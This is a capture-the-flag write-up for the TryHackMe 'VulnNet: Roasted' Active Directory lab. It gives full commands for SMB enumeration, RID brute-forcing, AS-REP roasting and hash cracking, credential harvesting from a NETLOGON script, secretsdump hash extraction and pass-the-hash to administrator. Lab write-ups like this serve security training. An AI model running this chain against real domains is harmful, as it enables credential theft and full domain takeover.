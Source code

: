 # VulnNet: Roasted

Link to room: https://tryhackme.com/room/vulnnetroasted

### Windows Active Directory

Let's start our enumeration with an nmap scan:
```
nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
```
```python
# Nmap 7.91 scan initiated Sun May 16 16:34:12 2021 as: nmap -p- -v -sC -sV -Pn -oN nmap-all-ports vulnet.thm
Nmap scan report for vulnet.thm (10.10.123.68)
Host is up (0.23s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-16 21:04:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-05-16T21:05:40
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 16 17:06:24 2021 -- 1 IP address (1 host up) scanned in 1932.04 seconds
```

Based on some of the opened ports like 53(DNS) and 88(kerberos), we can predict this is a windows active directory machine

## SMB Enum

we can enumerate shares anonymously providing a null password using smbmap
```python
╭── /opt/share/tryhackme/vulnet  master ✘✘✘ ✭  
╰────▶ smbmap -H vulnet.thm -u guest -p ''
[+] IP: vulnet.thm:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

There is read-only access to three shares (IPC$, VulnNet-Business-Anonymous, and VulnNet-Enterprise-Anonymous).
The IPC$ share hints us of the possibility to do anonymous user enumeration. We will come to that later. Let's access the last two shares and see what contents they have

```python
╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘
╰────▶ smbclient //vulnet.thm/VulnNet-Business-Anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021


╭── /opt/share/tryhackme/vulnet/smb_loot  master ✘✘✘ ✭  
╰────▶ smbclient //vulnet.thm/VulnNet-Enterprise-Anonymous                           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021
```
##
Download all the text files onto our local machine
```
smb: \> mget *
```
##
We get potential usernames and other info from the downloaded files from smb. so let's build our username list. Spoiler alert!!, the usernames in the files were generic and didn't match with those created on the machine

Time to find a way to enumerate usernames on the box. i will be using rid-brute from crackmapexec
```python
crackmapexec smb vulnet.thm -u robot -p '' --rid-brute | grep  SidTypeUser
```
Since anonymous login allowed, you can replace username robot with whatever name you like. I used robot because i am ROBOT -:)

![image](https://user-images.githubusercontent.com/68066436/118685539-3038aa80-b7d1-11eb-91e9-572fcd48794a.png)

##
Extract the usernames with RID greater than 1000 into a username file. I named my file users.txt with below usernames

```
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```
##
Kerberoasting with the username file returns a hash for t-skid (Implies user t-skid does not require kerberos pre-authentication)

```python
python3 GetNPUsers.py -dc-ip 10.10.176.144 -usersfile users.txt vulnnet-rst.local/
```
![image](https://user-images.githubusercontent.com/68066436/118688670-41cf8180-b7d4-11eb-9917-96222176f67f.png)

Put whole hash (from $krb to end of hash) in a file and crack with john-the-ripper
```python
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt kerberoasting-hash
```
![image](https://user-images.githubusercontent.com/68066436/118689287-d1753000-b7d4-11eb-8b7f-869cfe676122.png)

Creds for t-skid
```
user: t-skid
pass: <redacted>
```
##
Try to access smb again with t-skid's creds to see if we can elevate our access to some shares
```python
smbmap -H vulnet.thm -u t-skid -p '<redacted>'
```
![image](https://user-images.githubusercontent.com/68066436/118689875-77c13580-b7d5-11eb-88a7-c99bc26d771f.png)

Notice t-skid now has read access to NETLOGON and SYSVOL shares which we did not have with the anonymous logins

Let's access NETLOGON share with smbclient and see what we've got in there using t-skid's creds
```python
smbclient //vulnet.thm/NETLOGON -U t-skid
```
![image](https://user-images.githubusercontent.com/68066436/118690902-82c89580-b7d6-11eb-95f2-9fb1715a6c6b.png)


We get a new username and password after downloading and reading the content of ResetPassword.vbs
![image](https://user-images.githubusercontent.com/68066436/118691117-bf948c80-b7d6-11eb-9360-202d1f66c064.png)

Creds for a-whitehat
```
user: a-whitehat
pass: <redacted>
```
##
Pass a-whitehat's creds into evil-winrm to get the initial foothold of the machine
```python
evil-winrm -i vulnet.thm -u a-whitehat -p <redacted>
```
![image](https://user-images.githubusercontent.com/68066436/118693125-c45a4000-b7d8-11eb-9b0b-cf9abceba4aa.png)


## Privilege Escalation

Checked groups and realised user a-whitehat belong to the domain admins group, this will enable us dump hashes from SAM database using secretsdump.py from impacket

![image](https://user-images.githubusercontent.com/68066436/118693532-21ee8c80-b7d9-11eb-9b2d-195be8421d32.png)

Let's dump the hashes with secretsdump
```python
python3 secretsdump.py -just-dc a-whitehat:<redacted password>@vulnnet-rst.local
```
![image](https://user-images.githubusercontent.com/68066436/118694206-d2f52700-b7d9-11eb-9b00-698568e0e87f.png)

What do we do with the administrator's hashes? Erhmmm, let's pass-the-hash using evil-winrm
```python
evil-winrm -i vulnet.thm -u administrator -H <redacted NTLM hash of administrator>
```
![image](https://user-images.githubusercontent.com/68066436/118695296-084e4480-b7db-11eb-8194-300f527f336b.png)

We have successfully escalated our privilege to administrator!!!!!


## Flags
Time to grab the flags

### User Flag:
Navigate to C:\users\enterprise-core-vn\Desktop\user.txt
![image](https://user-images.githubusercontent.com/68066436/118696979-d63de200-b7dc-11eb-8d86-a6da70a933aa.png)

### System Flag:
Navigate to C:\Users\Administrator\Desktop\system.txt
![image](https://user-images.githubusercontent.com/68066436/118696998-db029600-b7dc-11eb-8f7d-e0673173e282.png)



##
This is the end of my write-up, hope you enjoyed reading....



